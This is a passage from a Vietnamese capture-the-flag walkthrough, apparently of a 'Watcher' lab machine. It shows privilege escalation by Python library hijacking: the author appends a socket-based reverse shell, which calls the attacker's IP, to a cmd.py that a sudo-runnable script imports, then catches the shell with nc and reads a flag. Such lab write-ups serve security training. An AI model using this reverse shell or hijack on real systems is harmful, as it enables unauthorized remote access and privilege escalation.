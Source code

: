 Điều này có nghĩa là tôi có thể chạy file `will_script.py` bằng user **will** mà không cần khai báo password. Nhìn vào nội dung bên trên thì `will_script.py` sẽ import `cmd.py` làm thư viện. Vậy thì tôi sẽ thêm shell vào `cmd.py` để `will_script.py` thực thi nó

[Shell tôi sử dụng](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#python-library-hijacking)

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",5678));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Thay đổi ip và port

```python
mat@watcher:~/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.105.194",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
<(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```

Tạo listener với port 6666

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 6666
listening on [any] 6666 ...
```

Thực thi

```python
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```

Quay lại listener

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.8.105.194] from (UNKNOWN) [10.10.80.186] 56418
will@watcher:~/scripts$ id
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:~/scripts$ cd /home/will
cd /home/will
will@watcher:/home/will$ ls
ls
flag_6.txt
will@watcher:/home/will$ cat flag_6.txt 
cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
will@watcher:/home/will$ 
```

## SSH

